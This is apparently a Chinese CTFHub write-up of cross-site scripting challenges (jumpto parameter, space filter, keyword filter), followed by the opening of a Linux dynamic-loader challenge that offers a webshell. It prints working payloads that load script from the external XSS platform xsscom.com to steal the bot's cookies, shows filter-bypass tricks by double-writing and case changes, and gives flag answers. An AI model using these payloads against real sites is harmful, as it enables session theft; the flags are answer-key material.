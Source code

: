 > #### JumpTo 后的输入框并不能填写内容
>
> #### Send URL to Bot中URL后的输入框填写`http://challenge-859ced9cb2ed32a5.sandbox.ctfhub.com:10800?jumpto=javascript:$.getScript("//xsscom.com//purFOq")` 点击Send

用`jQuery` 的 `$.getScript()` 函数来异步加载并执行来自 [xsscom](http://xsscom.com/) 的 `JavaScript` 脚本，通过`jumpto=javascript:$.getScript()`，在接收到的内容中能看到`cookie : flag=ctfhub{b9ae823a620388be4477a939}`，提交即可。

------

#### 过滤空格

利用 [xsscom](http://xsscom.com/) 来获取与靶机的交互信息，新建项目、默认模块、无keepsession。我们可以用`/`来代替空格，

> #### What's your name 后的输入框填写 `</textarea>'"><script/src=http://xsscom.com//purFOq></script>` 点击Submit
>
> #### Send URL to Bot中URL后的输入框填写`http://challenge-f218d4eec3b4f897.sandbox.ctfhub.com:10800/?name=</textarea>'"><script/src=http://xsscom.com//purFOq></script>` 点击Send

在接收到的内容中能看到`cookie : flag=ctfhub{1751e5e28f77d81afa0c962a}`，提交即可。

------

#### 过滤关键词

利用 [xsscom](http://xsscom.com/) 来获取与靶机的交互信息，新建项目、默认模块、无keepsession。

发现关键词`script`被过滤了，我们可以通过以下俩种方式绕过关键词过滤：

- 双写绕过：

  ```html
  </textarea>'"><scrscriptipt src=http://xsscom.com//purFOq></scrscriptipt>
  ```

- 大小写绕过：

  ```html
  </textarea>'"><Script src=http://xsscom.com//purFOq></sCript>
  ```

在接收到的内容中能看到`cookie : flag=ctfhub{4b7f4238db209b657b3ff69f}`，提交即可。

------

#### 动态加载器

打开靶机后看到以下页面：

> # CTFHub Linux 动态装载
>
> 当ELF没有 x 权限时, 如何执行?
>
> ```
> # chmod 755 /readflag
> # /readflag
> ctfhub{demoflag}
> #
> # chown root:root /readflag
> # chmod 644 /readflag
> # ls -l /readflag
> -rw-r--r-- 1 root root 8648 Mar  6 15:48 /readflag
> ```
>
> ## 目标: 执行 /readflag 读取 flag
>
> 出题人: 本题不需要提权, 这是给你的 [WebShell](http://challenge-4311b12ebeb97331.sandbox.ctfhub.com:10800/ant.php), 只能帮你到这了。
